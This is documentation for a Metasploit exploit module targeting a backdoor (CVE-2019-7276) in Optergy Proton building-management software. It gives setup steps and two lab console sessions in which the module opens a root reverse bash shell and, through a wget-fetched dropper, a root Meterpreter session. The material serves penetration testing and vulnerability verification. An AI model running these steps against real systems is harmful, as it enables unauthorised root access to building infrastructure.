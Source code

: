 ## Vulnerable Application

This module exploits an undocumented backdoor vulnerability (CVE-2019-7276) in the Optergy Proton and Enterprise
Building Management System (BMS) applications. Versions `2.0.3a` and below are vulnerable.
Attackers can exploit this issue by directly navigating to an undocumented backdoor script called `Console.jsp`
in the tools directory and gain full system access.
Successful exploitation results in `root` command execution using `sudo` as user `optergy`.

Please check out this [AttackerKB Article](https://attackerkb.com/topics/QrYFIjnd3J/cve-2019-7276) for more info.

Installing a vulnerable test bed requires a Linux or Windows machine with the vulnerable software loaded.
Follow instructions [Optergy OVA Download](https://github.com/h00die-gr3y/Metasploit/tree/main/images),
to download an OVA image with a vulnerable Optergy Proton application (v2.0.3a) installed.

This module has been tested against a Optergy Proton installation with the specifications listed below:

* Optergy Proton
* Version: `2.0.3a`
* Linux OS: Debian 7.11

## Verification Steps

1. `use exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command, 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
No additional options.

## Scenarios

### Optergy Proton 2.0.3a on Debian Linux 7.11 - bash reverse shell
```
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > check
[+] 192.168.201.31:80 - The target is vulnerable.
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > options

Module options (exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.201.31   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                       t/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an addres
                                       s on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.201.10   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.201.10:4444 -> 192.168.201.31:43322) at 2023-03-22 12:45:22 +0000

whoami
root
uname -a
Linux debian 3.2.0-4-amd64 #1 SMP Debian 3.2.96-2 x86_64 GNU/Linux
exit
[*] 192.168.201.31 - Command shell session 1 closed.
```
### Optergy Proton 2.0.3a on Debian Linux 7.11 - Linux Dropper Meterpreter session
```
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > set target 1
target => 1
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > options

Module options (exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.201.31   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                       t/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an addres
                                       s on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.201.10   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:8080/JKGheHgpr9TQf
[*] Client 192.168.201.31 (Wget/1.13.4 (linux-gnu)) requested /JKGheHgpr9TQf
[*] Sending payload to 192.168.201.31 (Wget/1.13.4 (linux-gnu))
[*] Sending stage (3045348 bytes) to 192.168.201.31
[*] Meterpreter session 2 opened (192.168.201.10:4444 -> 192.168.201.31:43377) at 2023-03-22 12:46:57 +0000
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.201.31
OS           : Debian 7.11 (Linux 3.2.0-4-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
```

## Limitations
No limitations identified.
